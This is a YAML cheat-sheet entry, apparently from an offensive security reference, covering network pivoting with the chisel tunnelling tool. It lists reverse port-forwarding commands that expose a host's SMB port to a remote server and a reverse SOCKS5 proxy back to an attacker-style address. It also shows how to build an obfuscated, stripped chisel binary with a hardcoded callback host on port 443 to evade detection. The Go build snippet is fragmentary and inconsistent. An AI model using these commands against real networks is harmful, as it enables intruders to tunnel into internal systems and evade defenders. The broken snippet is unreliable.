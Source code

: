 ```yaml
---
functions:
  pivoting:
    - description: Chisel Single Port Fowarding
      code: |
        Client
        chisel.exe client <server> R:<port-to-forward>:<server-listening-ip-port>
        chisel.exe client 10.10.14.10:8000 R:445:127.0.0.1:445

        Server
        chisel server -p 8000 --reverse
    - description: Chisel Socks5 Proxy
      code: |
        Client
        chisel.exe client 10.10.14.3:8000 R:socks

        Server
        chisel server -p 8000 --socks5 --reverse
    - description: Compile chisel with arguments
      code: |
        
        var cmdlineArgs string  //add
        func main() {
          cmdArgs := strings.Split(cmdlineArgs, " ")   //add
          os.Args = append(os.Args, cmdArgs...)    //add


        Client
        garble -literals -seed=random -tiny build -ldflags "-s -w -X main.subcmd=client -X config.MaxRetryCount=5 -X config.MaxRetryInterval=5 -X main.port=443 -X main.host=10.0.0.18"

resources: |
  https://github.com/jpillora/chisel
  https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683
---
```

